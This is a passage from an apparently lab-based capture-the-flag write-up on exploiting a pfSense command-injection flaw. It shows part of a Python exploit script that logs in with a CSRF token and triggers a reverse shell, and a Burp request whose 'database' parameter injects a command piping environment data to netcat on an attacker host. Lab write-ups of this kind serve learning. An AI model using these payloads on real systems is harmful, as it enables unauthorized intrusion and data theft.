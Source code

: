 ```py hl_lines="3"

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
```
## Exploitation
### Manual Exploitation
We going to use the vulnerability `https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/` to do a command injection via burbsuit. 
we can see that the vulnerability is in the `Status->RRD Graph` and it will open a page open the image in the new page. we can remove the rest of the text from the url and only leave with 
`https://10.129.147.216/status_rrd_graph_img.php?database
`
we can add `queues` to the end as it's mentioned on teh link above. and open `bubsuite` and `intercept on`. and send to `reapeater`.

```bash hl_lines="1"
GET /status_rrd_graph_img.php?database=queues;env|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```